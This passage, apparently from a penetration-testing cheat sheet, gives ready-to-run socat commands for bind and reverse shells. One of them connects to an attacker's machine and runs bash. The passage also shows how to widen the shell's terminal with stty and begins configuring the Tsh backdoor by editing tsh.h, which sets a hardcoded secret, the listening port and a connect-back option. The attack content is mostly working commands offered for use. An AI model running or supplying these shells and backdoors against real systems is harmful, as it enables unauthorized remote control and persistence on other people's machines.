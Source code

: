 #### Bind shell

Set listener:

`socat TCP-LISTEN:1337,reuseaddr,fork EXEC:bash,pty,stderr,setsid,sigint,sane`

Connect to the listener:

`` socat FILE:`tty`,raw,echo=0 TCP:<victim_ip>:1337 ``

#### Reverse shell

Set listener:

`` socat TCP-LISTEN:1337,reuseaddr FILE:`tty`,raw,echo=0 ``

Connect to attacker’s machine:

<div>

    socat TCP4:<attackers_ip>:1337 EXEC:bash,pty,stderr,setsid,sigint,sane

</div>

#### Terminal size

By default the terminal size is quite small, as you may notice when
launching `top` command or editing files with a text editor. You can
easily change this, use `stty -a ` command to get the size of your
regular teminal:

<div>

    $ stty -a
    speed 38400 baud; rows 57; columns 211; line = 0;

</div>

Apply desired size to your socat terminal:

<div>

    $ stty rows 57 cols 211

</div>

### Tsh

[Tsh](https://github.com/creaktive/tsh) is a small ssh-like backdoor
with full-pty terminal and with capability of file transfer. This tool
has very small footprint and is easily built on most unix-like systems.
Start with editing tsh.h file:

<div>

    #ifndef _TSH_H
    #define _TSH_H

    char *secret = "never say never say die";

    #define SERVER_PORT 22
    short int server_port = SERVER_PORT;
    /*
    #define CONNECT_BACK_HOST  "localhost"
    #define CONNECT_BACK_DELAY 30
    */
    #define GET_FILE 1
    #define PUT_FILE 2
    #define RUNSHELL 3
